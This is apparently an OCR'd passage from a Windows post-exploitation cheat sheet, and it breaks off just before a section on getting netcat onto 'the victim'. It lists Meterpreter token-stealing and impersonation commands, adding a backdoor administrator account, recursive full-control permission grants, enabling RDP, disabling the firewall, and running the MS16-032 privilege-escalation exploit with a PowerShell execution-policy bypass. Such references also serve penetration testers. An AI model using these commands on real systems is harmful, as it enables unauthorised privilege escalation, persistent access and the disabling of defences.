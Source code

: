 list\_tokens -g

impersonate\_token DOMAIN\_NAME\\USERNAME

steal\_token PID

drop\_token

rev2self

Useful commands

Add a new user

$ net user test 1234 /add

$ net localgroup administrators test /add

Print files contents:

$ type file

Remove file

$ del /f file

Change password for user:

$ net user <user> <password>

List users:

$ net user

Info about a user:

$ net user <username>

Permissions on a folder recursively:

$ cacls \*.\* /t /e /g domainname\administrator:f

tasklist or wmic process or tasklist /svc

Enable RDP access

reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG\_DWORD /d 0

netsh firewall set service remoteadmin enable

netsh firewall set service remotedesktop enable

Disable firewall

$ netsh firewall set opmode disable

Run exploit

C:\tmp>powershell -ExecutionPolicy ByPass -command "& { . C:\tmp\Invoke-MS16-032.ps1; Invoke-MS16-032 }"

Transferring files

Paste the following code to get nc in the victim:
